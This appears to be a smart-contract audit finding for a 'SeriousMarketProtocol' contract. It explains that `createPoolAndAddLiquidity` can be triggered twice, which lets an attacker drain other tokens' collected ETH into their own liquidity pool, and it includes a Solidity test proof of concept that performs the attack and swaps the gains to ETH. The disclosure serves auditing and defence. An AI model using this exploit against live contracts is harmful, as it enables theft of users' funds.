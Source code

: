 However, `createPoolAndAddLiquidity` only sets `tradingEnabled` to false but does not check if the previous value was true. This can be abused by an attacker to lock other tokens' collected ETH into the attacker's pool.

Proof of Concept (PoC):

1. The attacker can create a token, fully fund the token, and then call `createPoolAndAddLiquidity`.
2. After this operation, the attacker donates enough tokens to cover `tokenAmount` to the `SeriousMarketProtocol` contract and triggers `createPoolAndAddLiquidity` for the second time.
   The collected ETH from other tokens will be used to provide liquidity to the attacker's pool.

Coded PoC :

```solidity
    function testAddLiquidityTwice() public {

        uint256 buyAmount = seriousMarket.tradeableSupply();
        uint256 cost = seriousMarket.getEthValueForTradeWithFee(0, int256(buyAmount));
        // this is to mock initial balance inside the market from another token funding
        vm.deal(address(seriousMarket), cost);

        vm.startPrank(ownerAddress);
        vm.deal(ownerAddress, cost);
        console.log("initial eth balance of attacker : ");
        console.log(cost);
        console.log("balance of eth inside market before :");
        console.log(address(seriousMarket).balance);
        seriousMarket.buyToken{value: cost}(address(token), buyAmount, bytes8(0));
        seriousMarket.createPoolAndAddLiquidity(tokenAddress);

        console.log("balance of attacker after first add liquidity :");
        console.log(token.balanceOf(ownerAddress));

        // add liquidity twice
        uint256 reservedSupply = seriousMarket.reservedSupply() * (10 ** 18);
        token.transfer(address(seriousMarket), reservedSupply);
        seriousMarket.createPoolAndAddLiquidity(tokenAddress);
        // swap back to eth
        uint256 swapAmount = token.balanceOf(ownerAddress);
        IV3SwapRouter swapRouter = IV3SwapRouter(swapRouterAddress);
        ERC20(tokenAddress).approve(swapRouterAddress, swapAmount);
        IV3SwapRouter.ExactInputSingleParams memory params = IV3SwapRouter.ExactInputSingleParams({
            tokenIn: tokenAddress,
            tokenOut: wethAddress,
            fee: seriousMarket.poolFee(),
            recipient: ownerAddress,
            amountIn: swapAmount,
            amountOutMinimum: 0,
            sqrtPriceLimitX96: 0
        });

        uint256 amountOut = swapRouter.exactInputSingle(params);
        console.log("Token balance of attacker after second addLiquidity :");
        console.log(token.balanceOf(ownerAddress));
        console.log("Eth balance of attacker after second addLiquidity :");
        console.log(address(ownerAddress).balance);
        console.log("Eth balance of seriousMarket after second addLiquidity :");
        console.log(address(seriousMarket).balance);
    }
```
